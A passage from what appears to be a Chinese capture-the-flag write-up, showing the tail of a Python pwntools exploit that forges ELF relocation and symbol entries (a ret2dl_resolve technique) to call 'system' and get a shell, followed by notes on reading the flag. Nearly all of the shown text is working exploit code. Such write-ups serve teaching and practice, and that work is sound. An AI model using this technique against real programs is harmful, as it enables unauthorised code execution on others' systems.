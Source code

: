 ```python
payload += 'a'*152
r.send(payload)


r_info = (index_dynsym << 8) | 0x7 			#readelf -r ROP5

fake_reloc = p32(puts_got) + p32(r_info) 

st_name = (fake_sym_addr + 0x10) - dynstr
fake_sym = p32(st_name) + p32(0) + p32(0) + p8(0x12) + p8(0) + p16(0) 		#p8(0) 绕过判断(sym->st_other)&0x03是否为0

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(base_stage + 80) 
payload2 += 'aaaa'
payload2 += 'aaaa'
payload2 += fake_reloc 								# (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym 								# (base_stage+36)的位置
payload2 += "system\x00"
payload2 += 'C' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))


r.sendline(payload2)

r.interactive()
```

运行脚本即可getshell

![shell](https://tva1.sinaimg.cn/large/00831rSTgy1gcxnzmxtnej30te0ak0vu.jpg)

之后进行输出重定位后即可`cat flag`，这里不再赘述

最后感谢**@PKFXXXX**关于ndx为2字节的解释
